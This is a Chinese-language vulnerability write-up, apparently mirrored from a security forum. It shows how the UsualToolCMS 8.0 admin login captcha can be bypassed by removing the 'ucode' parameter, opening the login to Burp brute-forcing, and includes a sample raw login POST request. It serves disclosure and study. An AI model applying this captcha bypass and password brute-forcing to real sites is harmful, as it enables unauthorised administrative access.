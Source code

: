# UsualToolcms 8.0 绕过后台验证码爆破

> 原文：[https://www.zhihuifly.com/t/topic/3213](https://www.zhihuifly.com/t/topic/3213)

# UsualToolcms 8.0 绕过后台验证码爆破

## 一、漏洞简介

可通过删除验证码参数，进行暴力破解

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点:http://0-sec.org/cmsadmin/

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

![image](img/250b1e5c16a8b1a1fcf0f7aa2c0de690.png)

![image](img/a857dbb5b18178eef37dd959b4af47b3.png)

删除ucode参数和cookie后登陆，直接登陆成功

![image](img/7936caa942376a10b97129709f537d25.png)

通过burp爆破后台密码

![image](img/e443447827b378eff17bde253f8566a4.png)

![image](img/b7bf1c45faf4a461fe71fef70e5492d8.png)

```
POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23 `uuser=admin&upass=admin` 
```